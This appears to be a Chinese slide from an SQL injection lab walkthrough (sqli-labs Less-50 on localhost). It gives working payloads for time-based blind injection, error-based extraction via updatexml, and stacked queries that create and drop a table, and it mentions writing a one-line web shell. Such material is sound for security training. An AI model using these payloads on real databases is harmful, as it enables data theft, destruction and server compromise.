

# Less-50_02
1. 基于时间的盲注
http://127.0.0.1/sqli/Less-50/?sort=1  and if (  (length(database()) > 1 )     ,1, sleep(5)   ) --+
2. 基于报错注入：
http://127.0.0.1/sqli/Less-50/?sort=1  and updatexml( 1,  concat(0x7e, (database())  )   ,1)  --+
3. 写一句话木马（这里不再进行演示）
4. 使用堆叠注入创建删除一个表：
http://127.0.0.1/sqli/Less-50/?sort=1; create table crow like users; --+
http://127.0.0.1/sqli/Less-50/?sort=1; drop table crow ; --+
5. 使用堆叠注入写一句话木马（这里不再进行演示）
当然方法不局限于这么多，还有其他的方法请大家自行挖掘。